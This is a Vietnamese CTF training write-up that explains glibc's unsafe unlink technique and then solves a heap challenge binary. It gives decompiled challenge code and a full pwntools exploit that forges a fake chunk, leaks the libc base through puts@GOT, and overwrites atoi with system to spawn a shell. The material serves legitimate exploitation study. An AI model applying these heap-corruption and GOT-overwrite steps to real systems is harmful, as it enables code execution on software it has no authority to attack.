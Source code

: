 # unsafe unlink (UL)
## Lý thuyết
- UL là kĩ thuật khai thác hàm unlink trong file libc. Lỗi này xảy khi free một chunk, hàm unlink trong libc sẽ kiểm tra `(P->fd->bk != P || P->bk->fd != P) == False`.
<details><summary>Source unlink</summary>

```c
static void
unlink_chunk (mstate av, mchunkptr p)
{<!-- -->
  if (chunksize (p) != prev_size (next_chunk (p)))
    malloc_printerr ("corrupted size vs. prev_size");

  mchunkptr fd = p->fd;
  mchunkptr bk = p->bk;

  if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
    malloc_printerr ("corrupted double-linked list");

  fd->bk = bk;
  bk->fd = fd;
// ....code
// ....code
}
```

</details>

- Kĩ thuật này có thể sử dụng khi ta có lỗi ow heap hoặc có một con trỏ tuỳ chỉnh.
## Unsafe unlink flow
- Tạo 2 chunk A, B, tạo một fake chunk trong A
![image](https://github.com/wan-hyhty/trainning/assets/111769169/de7dc545-e2d3-4071-a2ef-54314e50e823)

# Heap 4
## Source code

<details><summary>create heap</summary>

```c
__int64 createHeap()
{
  signed int Int; // [rsp+8h] [rbp-8h]
  unsigned int nmemb; // [rsp+Ch] [rbp-4h]

  printf("Index:");
  Int = readInt();
  if ( (unsigned int)Int >= 0xA )
    exit(0);
  if ( *(&store + Int) )
    return 0LL;
  printf("Input size:");
  nmemb = readInt();
  if ( nmemb > 0x1000 )
    exit(0);
  *(&store + Int) = calloc(nmemb, 1uLL);
  storeSize[Int] = nmemb;
  printf("Input data:");
  readStr(*(&store + Int), nmemb);
  puts("Done");
  return 0LL;
}
```
</details>

<details><summary>showHeap</summary>

```c
__int64 showHeap()
{
  int Int; // [rsp+Ch] [rbp-4h]

  printf("Index:");
  Int = readInt();
  if ( (unsigned int)Int >= 0xA )
    exit(0);
  if ( *(&store + Int) )
    printf("Data = %s\n", (const char *)*(&store + Int));
  return 0LL;
}
```
    
</details>

<details><summary>deleteHeap</summary>

```c
__int64 deleteHeap()
{
  int Int; // [rsp+Ch] [rbp-4h]

  printf("Input index:");
  Int = readInt();
  if ( (unsigned int)Int >= 0xA )
    exit(0);
  if ( *(&store + Int) )
  {
    free(*(&store + Int));
    *(&store + Int) = 0LL;
    puts("Done ");
  }
  return 0LL;
}
```
    
</details>

<details><summary>editHeap</summary>

```c
__int64 editHeap()
{
  int Int; // [rsp+8h] [rbp-28h]
  unsigned int v2; // [rsp+Ch] [rbp-24h]
  char s1[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("Input index:");
  Int = readInt();
  if ( (unsigned int)Int >= 0xA )
    exit(0);
  if ( !*(&store + Int) )
    return 0LL;
  printf("Input newsize:");
  v2 = readInt();
  if ( storeSize[Int] < v2 )
    storeSize[Int] = v2;
  puts("Do you want to change data (y/n)?");
  readStr(s1, 10LL);
  if ( !strcmp(s1, "y") )
  {
    printf("Input data:");
    readStr(*(&store + Int), (unsigned int)storeSize[Int]);
  }
  puts("Done ");
  return 0LL;
}
```
                          
</details>

<details><summary>main</summary>
```c 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  initState(argc, argv, envp);
  puts("Ez heap challange !");
  while ( 1 )
  {
    menu();
    switch ( (unsigned int)readInt() )
    {
      case 1u:
        createHeap();
        break;
      case 2u:
        showHeap();
        break;
      case 3u:
        editHeap();
        break;
      case 4u:
        deleteHeap();
        break;
      case 5u:
        exit(0);
      default:
        puts("no option");
        break;
    }
  }
}
```

</details>

## Khai thác

### Tạo fake chunk
- Đầu tiên, ta cần tạo khoảng 5 đến 6 chunk

```python=
create(str(0), str(0x80), "a"*0x80)    # bỏ vì nó nằm đầu
create(str(1), str(0x80), "a"*0x80)
create(str(2), str(0x80), "a"*0x80)    # 1, 2 có thể bỏ
create(str(3), str(0x80), "a"*0x80)    # target
create(str(4), str(0x80), "a"*0x80)
create(str(5), str(0x80), "a"*0x80)    # bỏ vì nếu unlink nó gộp với top chunk
```
- Vì chương trình không cho ta UAF, ta có thể dùng unsafe unlink để ow store, khi đó ta có thể leak
```python=
wr_section = 0x6020e0 
payload = flat(
    0, 0,                           # size
    wr_section, wr_section + 8      # fd, bk fakechunk
)
payload = payload.ljust(0x80)       # padding
payload += p64(0x80) + p64(0x90)    # ow header chunk 4
edit(str(3), str(144), payload)
delete(str(4))
```
### Leak libc
- Ta sẽ ghi đè store[0] của là địa chỉ của put@got, để khi dùng show, nó sẽ hiện put@plt để ta tính libc base
```python=
edit(str(3), str(144), p64(0x602020))
show("0")
p.recvuntil(b" = ")
libc.address = u64(p.recvline(keepends = False) + b'\0\0') - libc.sym['puts']
info("libc base: " + hex(libc.address))
```
### ow atoi = system
- Vì atoi(nptr) chỉ chứa một tham số, ta có thể ow atoi = system và truyền từ bàn phím nptr = /bin/sh
```python=
edit(str(3), str(144), p64(exe.got['atoi']))
edit(str(0), str(144), p64(libc.sym['system']))
create("/bin/sh", str(0x80), "a"*0x80)
```
    
## Kết quả
![image](https://github.com/wan-hyhty/trainning/assets/111769169/140d8e61-7dc5-465c-987a-949998024f22)
```python=
#!/usr/bin/python3

from pwn import *

exe = ELF('pwn4_ul_patched', checksec=False)
libc = ELF('libc.2.23.so', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
				b* editHeap+0

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('')
else:
        p = process(exe.path)

GDB()

def create(idx, size, data):
	sla(b">\n", b"1")
	sla(b":",idx.encode())
	sla(b":",size.encode())
	sa(b":",data.encode())

def show(idx):
	sla(b">\n", b"2")
	sla(b":",idx.encode())
def edit(idx, newsize, data):
	sla(b">\n", b"3")
	sla(b":",idx.encode())
	sla(b":",newsize.encode())
	sla(b"?\n",b"y")
	sa(b":", data)
def delete(idx):
	sla(b">\n", b"4")
	sla(b":",idx.encode())
create(str(0), str(0x80), "a"*0x80)
create(str(1), str(0x80), "a"*0x80)
create(str(2), str(0x80), "a"*0x80)
create(str(3), str(0x80), "a"*0x80)
create(str(4), str(0x80), "a"*0x80)
create(str(5), str(0x80), "a"*0x80)
wr_section = 0x6020e0 
payload = flat(
    0, 0,
    wr_section, wr_section + 8
)
payload = payload.ljust(0x80)
payload += p64(0x80) + p64(0x90)
edit(str(3), str(144), payload)
delete(str(4))
edit(str(3), str(144), p64(0x602020))
show("0")
p.recvuntil(b" = ")
libc.address = u64(p.recvline(keepends = False) + b'\0\0') - libc.sym['puts']
info("libc base: " + hex(libc.address))

edit(str(3), str(144), p64(exe.got['atoi']))
edit(str(0), str(144), p64(libc.sym['system']))
create("/bin/sh", str(0x80), "a"*0x80)

p.interactive()

```
